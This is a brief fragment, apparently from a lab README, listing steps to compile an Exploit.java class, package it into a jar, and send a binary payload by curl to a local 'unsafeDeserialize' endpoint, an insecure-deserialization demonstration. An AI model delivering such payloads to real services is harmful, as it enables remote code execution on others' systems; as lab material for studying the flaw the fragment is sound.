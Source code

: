 1. javac Exploit.java
2. jar cf Exploit.jar Exploit.class
3. ```curl -X POST \
  http://localhost:8080/unsafeDeserialize \
  -H 'Content-Type: application/octet-stream' \
  --data-binary @payload.bin
```